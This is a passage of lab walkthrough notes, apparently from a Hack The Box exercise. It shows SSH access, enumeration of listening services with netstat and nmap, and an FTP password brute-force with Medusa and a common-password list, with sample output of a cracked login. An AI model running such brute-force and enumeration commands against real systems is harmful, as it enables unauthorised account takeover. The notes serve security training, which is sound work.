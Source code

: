 ### SSH Connection
With the correct password:
```bash
DJMC@htb[/htb]$ ssh sshuser@<IP> -p <PORT>
```
This establishes an interactive SSH session.

---

## Expanding the Attack Surface
Once inside the system, identify other services:

### Check Open Ports
```bash
DJMC@htb[/htb]$ netstat -tulpn | grep LISTEN
```
Example Output:
```
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -
tcp6       0      0 :::21                   :::*                    LISTEN      -
```

### Confirm with Nmap
```bash
DJMC@htb[/htb]$ nmap localhost
```
Example Output:
```
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
```

---

## FTP Brute-Forcing with Medusa

### Command
```bash
DJMC@htb[/htb]$ medusa -h 127.0.0.1 -u ftpuser -P 2023-200_most_used_passwords.txt -M ftp -t 5
```

### Command Breakdown
- `-h 127.0.0.1`: Targets the local system.
- `-u ftpuser`: Username for the FTP server.
- `-P 2023-200_most_used_passwords.txt`: Password list.
- `-M ftp`: Specifies the FTP module.
- `-t 5`: Runs five parallel login attempts.

### Example Output
```
ACCOUNT FOUND: [ftp] Host: 127.0.0.1 User: ftpuser Password: pass123 [SUCCESS]
```

---